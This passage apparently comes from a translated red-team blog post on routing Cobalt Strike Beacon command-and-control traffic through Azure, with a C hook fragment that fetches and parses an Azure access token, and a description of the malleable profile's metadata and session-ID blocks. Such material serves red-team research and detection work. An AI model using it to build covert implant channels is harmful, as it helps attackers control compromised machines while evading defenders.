 ```plain

            // Make web request
            response = MakeWebRequest(pMemAddrs->hInternet, 
                                       C_PTR ( OFFSET ( "login.microsoft.com" ) ), 
                                       tempUri, 
                                       POST_VERB, 
                                       headers, 
                                       content, 
                                       pMemAddrs);
            if (!response)
                return INVALID_HANDLE_VALUE;  

            // Parse out returned auth token
            char* delimiter = C_PTR ( OFFSET ( "access_token\":\"" ) );
            char* accessToken = pMemAddrs->Api.msvcrt.strstr(response, delimiter) + pMemAddrs->Api.msvcrt.strlen(delimiter);

            // Null terminate accessToken to remove brackets and quotes
            pMemAddrs->Api.msvcrt.memset(accessToken + pMemAddrs->Api.msvcrt.strlen(accessToken) - 2, 0, 2);

    ... Trimmed for Brevity ...         
}
```

幸运的是，事实证明这种方法完全可行。在第 33 行，我们通过指定 Azure 应用程序 ID 和应用程序客户端秘密（也是应用程序的 "密码"）来组装内容缓冲区。第 36 行调用了 "MakeWebRequest"，并返回 PVOID 响应变量，其中包含我们需要的访问令牌。请记住，这段代码位于 HttpOpenRequestA\_Hook 函数中，每次 Beacon 启动 http-get 循环时都会调用该函数。这样，我们就有机会将 "获取访问令牌" 代码隐藏在条件要求后面，例如 "在您第一次请求时，以及在距离上次获取访问令牌超过 3100 秒时运行此代码"。由于 Azure 访问令牌的有效期为 3600 秒，我们可以确保 Beacon 在旧的访问令牌过期之前自动检索新的访问令牌。

# Beacon 数据和配置文件语言

熟悉 Cobalt Strike 的人都知道，，Beacon 可通过可塑配置文件进行高度定制。其中包含的设置会传播到 TS 生成的所有 Beacon，并控制广泛的行为。在这个阶段，我们关注的是与 Beacon 发送 C2 流量相关的设置。Beacon HTTP 事务表提供了在事务的每个步骤中发送的数据的更多信息：

| **Request** | **Component** | **Block** | **Data** |
| --- | --- | --- | --- |
| http-get | client | metadata | Session metadata |
| http-get | server | output | Beacon’s tasks |
| http-post | client | id  | Session ID |
| http-post | client | output | Beacon’s responses |
| http-post | server | output | Empty |

在上面的图表中，Beacon 是 “客户端”。总之，Beacon 的每个 http-get 都必须包含有关该 Beacon / 主机 / 进程的会话元数据（这是在 Cobalt Strike 客户端中填充数据的内容），而每个 http-post 都必须包含 Beacon 的会话 ID，这是一个唯一的多位数。TS 会使用每种请求类型中的这些数据来识别哪个灯塔在请求任务分配或发送输出。在 Cobalt Strike 配置文件中，"metadata" 和 "ID" 都是必填字段，在 http-get 或 http-post 请求中，可以选择如何发送这两个字段。这些选项包括将数据作为附加标头、参数，甚至附加到请求的 URI 中。Cobalt Strike 手册在[数据转换语言](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics/malleable-c2_profile-language.htm#_Toc65482839:~:text=these%20inverse%20statements.-,Data,-Transform%20Language)部分进一步介绍了这些自定义选项：
